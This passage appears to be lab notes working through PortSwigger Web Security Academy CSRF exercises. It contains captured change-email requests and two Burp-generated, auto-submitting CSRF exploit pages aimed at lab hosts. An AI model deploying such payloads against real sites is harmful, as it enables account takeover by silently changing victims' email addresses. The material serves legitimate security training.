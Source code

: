 GET /my-account/change-email?email=test%40test.com\&csrf= -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://accd1fbb1fb33923c06c165e00f800af.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="test2&#64;test&#46;com" />
        <input type="hidden" name="csrf" value="" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```

### Lab: CSRF where token validation depends on token being present

This lab's email change functionality is vulnerable to CSRF.

There is no csrf validation.

```
POST /my-account/change-email HTTP/1.1
...
email=test%40test.com&csrf=qiYsensNMTrt6sEsrg3k34F8fcETA9fV
```

```
POST /my-account/change-email HTTP/1.1
...
email=test%40test.com
```

POST /my-account/change-email -> Engagements Tools -> CSRF PoC Generator -> Include Auto-Submit Script(checked) -> Regenerate -> Copy HTML

**Exploit Server ->**

```
Body:

  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://ac051fad1fda0d08c0f81086001c006e.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```
